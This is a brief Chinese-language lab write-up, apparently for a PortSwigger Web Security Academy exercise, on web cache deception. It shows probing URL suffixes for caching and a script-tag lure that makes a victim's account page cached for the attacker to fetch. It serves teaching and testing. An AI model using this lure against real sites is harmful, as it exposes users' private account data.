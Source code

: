 将目标的敏感信息缓存到 URL 中.

为方便演示, 将结果: `敏感信息,X-Cache` 以数字 `0` 和 `1` 组合演示;
不存在的信息用 `0` 表示, 存在的信息用 `1` 表示

## 1. PoC

1. 访问 https://example.com/my-account 1,0
2. 访问 https://example.com/my-accounttest 0,0
3. 访问 https://example.com/my-account/test 1,0
   (在这一步测试可用的分隔符)
4. 访问 https://example.com/my-account/test.js 1,1
   (后缀可能是: `.js` , `.css` , `.ico` , `.exe`)
5.  `Cache-Control: max-age=30` 则在 30 秒内重新发送请求
   响应中的 `X-Cache: miss` 变为 `X-Cache: hit` 

## 2. Exploit

1. 制作一个网站诱导目标访问

   ```
   <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"</script>
   ```

2. 访问后会缓存目标的敏感信息

   ```
   https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js
   ```

3. 此时攻击者在 30 秒内从隐私浏览器中访问 URL 即可得到目标的敏感信息

---

Refrences

- [Web cache deception](https://portswigger.net/web-security/web-cache-deception)

